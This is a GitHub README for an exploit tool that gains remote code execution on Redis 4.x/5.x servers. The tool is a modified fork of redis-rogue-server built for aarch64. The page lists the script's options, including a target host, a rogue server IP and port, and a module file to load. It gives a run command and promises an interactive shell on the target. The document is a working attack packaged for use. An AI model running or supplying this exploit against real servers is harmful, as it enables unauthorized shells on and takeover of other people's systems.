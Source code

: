 # Redis RCE

A exploit for Redis 4.x/5.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

This repo is a modified version of <https://github.com/n0b0dyCN/redis-rogue-server> .
## Usage:

Compile module.so from <https://github.com/RicterZ/RedisModules-ExecuteCommand>.
And changed the architecture from x86 to aarch64


```
usage: redis-rce.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
                    [-a AUTH] [-v]

Redis 4.x/5.x RCE with RedisModules

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  -v, --verbose         show more info
```

## example:
```
python redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f module.so
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190708220258.png)

The default target port is 6379 and the default vps port is 21000.

And you will get an interactive shell!
